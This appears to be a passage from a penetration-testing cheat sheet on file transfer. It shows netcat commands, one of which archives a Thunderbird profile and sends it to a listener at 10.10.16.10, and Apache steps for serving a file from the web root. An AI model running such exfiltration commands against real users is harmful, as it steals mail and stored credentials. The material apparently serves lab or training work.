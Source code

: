 {% code title="Client" %}
```sh
tar -cf - .thunderbird | nc 10.10.16.10 4445
```
{% endcode %}

***

{% code title="With cat" %}
```sh
cat <file> | nc Target_IP 443
```
{% endcode %}
{% endtab %}

{% tab title="Apache" %}
### <mark style="color:purple;">Copy a file into Apache Web Directory</mark>

* <mark style="color:purple;">With the right permissions, you can copy the file to</mark> <mark style="color:orange;">**`/var/www/html`**</mark> <mark style="color:purple;">so it can be access from the URL</mark> <mark style="color:orange;">**`http://<server-ip>/file.txt`**</mark><mark style="color:purple;">**.**</mark>

```bash
cp archivo.txt /var/www/html
```

* <mark style="color:purple;">Enable permissions</mark>

{% code title="Give ownership to the web user" %}
```bash
sudo chown www-data:www-data /var/www/html/archivo.txt
```
{% endcode %}

{% code title="Set the file to be read by everyone" %}
```bash
sudo chmod 644 /var/www/html/archivo.txt
```
{% endcode %}

### <mark style="color:purple;">Uploading via Apache (web interface)</mark>

* <mark style="color:purple;">Ensure the appropriate</mark> <mark style="color:orange;">**`upload_max_filesize`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`post_max_size`**</mark> <mark style="color:purple;">directives are set in the</mark> <mark style="color:orange;">**`php.ini`**</mark> <mark style="color:purple;">file.</mark>
* <mark style="color:purple;">Normally is located here</mark> <mark style="color:orange;">**`/etc/php/7.x/apache2/php.ini`**</mark>

```ini
upload_max_filesize = 50M
post_max_size = 50M
```
{% endtab %}
